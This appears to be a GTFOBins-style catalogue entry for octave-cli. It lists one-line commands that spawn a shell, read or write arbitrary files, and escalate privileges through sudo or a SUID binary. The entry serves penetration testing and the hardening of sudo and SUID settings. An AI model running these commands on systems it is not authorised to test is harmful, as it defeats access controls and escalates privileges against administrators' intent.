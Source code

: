 description: The payloads are compatible with GUI.
functions:
  shell:
    - code: octave-cli --eval 'system("/bin/sh")'
  file-write:
    - code: octave-cli --eval 'filename = "file_to_write"; fid = fopen(filename, "w"); fputs(fid, "DATA"); fclose(fid);'
  file-read:
    - code: octave-cli --eval 'format none; fid = fopen("file_to_read"); while(!feof(fid)); txt = fgetl(fid); disp(txt); endwhile; fclose(fid);'
  sudo:
    - code: sudo octave-cli --eval 'system("/bin/sh")'
  limited-suid:
    - code: ./octave-cli --eval 'system("/bin/sh")'
---
